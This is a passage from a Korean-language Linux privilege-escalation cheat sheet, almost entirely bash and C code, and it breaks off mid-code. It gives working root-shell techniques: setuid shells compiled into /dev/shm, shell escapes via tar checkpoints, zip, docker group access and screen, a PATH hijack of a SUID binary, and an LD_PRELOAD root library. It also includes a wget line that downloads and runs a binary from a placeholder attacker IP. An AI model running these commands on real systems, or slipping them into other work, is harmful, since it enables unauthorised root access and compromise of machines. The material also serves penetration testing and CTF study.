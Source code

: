 ```bash
# 간단한 버전
echo 'int main(){setuid(0);system("/bin/sh -p");}' > r.c && gcc r.c -o r && ./r

# 바이너리 복사 없이 메모리에서 직접 실행
gcc -xc - -o /dev/shm/rootshell << EOF
#include <unistd.h>
int main() {
    setuid(0);
    execl("/bin/sh", "sh", "-p", NULL);
    return 0;
}
EOF
chmod +x /dev/shm/rootshell
/dev/shm/rootshell
```

## 4. 고급 권한 상승 기법

### 특수 명령어 활용

```bash
# tar 명령어 체크포인트 기능 활용
tar cf /dev/null /dev/null --checkpoint=1 --checkpoint-action=exec=/bin/sh

# zip 명령어를 이용한 명령 실행
TF=$(mktemp -u)
zip $TF /etc/hosts -T -TT 'sh #'
rm $TF

# docker 그룹 권한 이용 (docker 그룹 포함 시)
docker run -v /:/mnt --rm -it alpine chroot /mnt sh

# screen 취약점 활용 (4.5.0 이하)
screen -D -m -L bash -c 'exec bash -i'

# wget을 이용한 파일 다운로드 및 실행
cd /tmp
wget http://공격자IP/rootshell -O rootshell
chmod +x rootshell
./rootshell
```

### 환경변수 조작 기법

```bash
# 환경변수 PATH 조작
cd /tmp
echo '#!/bin/sh' > ls
echo '/bin/sh' >> ls
chmod +x ls
export PATH=/tmp:$PATH
/경로/취약한_SUID_바이너리  # 내부적으로 ls 실행 시 /tmp/ls가 먼저 실행됨

# LD_PRELOAD 활용 (SUID 바이너리가 이 변수를 무시하지 않는 경우)
cat > /tmp/rootshell.c << EOF
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>

void _init() {
    setuid(0);
    setgid(0);
    system("/bin/bash -p");
```